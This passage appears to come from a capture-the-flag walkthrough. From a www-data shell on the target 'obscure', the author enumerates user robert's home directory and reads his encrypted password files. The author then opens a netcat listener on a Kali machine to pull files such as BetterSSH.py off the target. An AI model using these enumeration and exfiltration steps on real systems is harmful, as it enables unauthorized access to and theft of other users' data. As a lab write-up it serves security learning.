 ```
/home/robert/out.txt
/home/robert/.bash_history
/home/robert/.profile
/home/robert/.cache
/home/robert/.config
```

Well well wellllllll. Looks like robert got sloppy with his home directory's file permissions.
`www-data@obscure:/home/robert$ ls -alh`
```
total 60K
drwxr-xr-x 7 robert robert 4.0K Dec  2  2019 .
drwxr-xr-x 3 root   root   4.0K Sep 24  2019 ..
lrwxrwxrwx 1 robert robert    9 Sep 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 robert robert  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 robert robert 3.7K Apr  4  2018 .bashrc
drwxr-xr-x 2 root   root   4.0K Dec  2  2019 BetterSSH
drwx------ 2 robert robert 4.0K Oct  3  2019 .cache
-rw-rw-r-- 1 robert robert   94 Sep 26  2019 check.txt
drwxr-x--- 3 robert robert 4.0K Dec  2  2019 .config
drwx------ 3 robert robert 4.0K Oct  3  2019 .gnupg
drwxrwxr-x 3 robert robert 4.0K Oct  3  2019 .local
-rw-rw-r-- 1 robert robert  185 Oct  4  2019 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4  2019 passwordreminder.txt
-rw-r--r-- 1 robert robert  807 Apr  4  2018 .profile
-rwxrwxr-x 1 robert robert 2.5K Oct  4  2019 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Sep 25  2019 user.txt

```



Now we peruse robert's files and transfer anything of interest using netcat.
```
www-data@obscure:/home/robert$ cat check.txt
Encrypting this file with your key should result in out.txt, make sure your key is correct!

www-data@obscure:/home/robert$ cat out.txt
¦ÚÈêÚÞØÛÝÝ×ÐÊßÞÊÚÉæßÝËÚÛÚêÙÉëéÑÒÝÍÐêÆáÙÞãÒÑÐáÙ¦ÕæØãÊÎÍßÚêÆÝáäèÎÍÚÎëÑÓäáÛÌ×v

www-data@obscure:/home/robert$ cat passwordreminder.txt
´ÑÈÌÉàÙÁÑé¯·¿kwww-data@obscure:/home/robert$

www-data@obscure:/home/robert$ ls -lh BetterSSH
total 4.0K
-rwxr-xr-x 1 root root 1.8K Oct  5  2019 BetterSSH.py
```
On our kali machine, we can open a socket to accept any interesting files.
`kali@kali:~$ nc -nlvp 9000 > BetterSSH_copy.`
```
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9000
Ncat: Listening on 0.0.0.0:9000
```
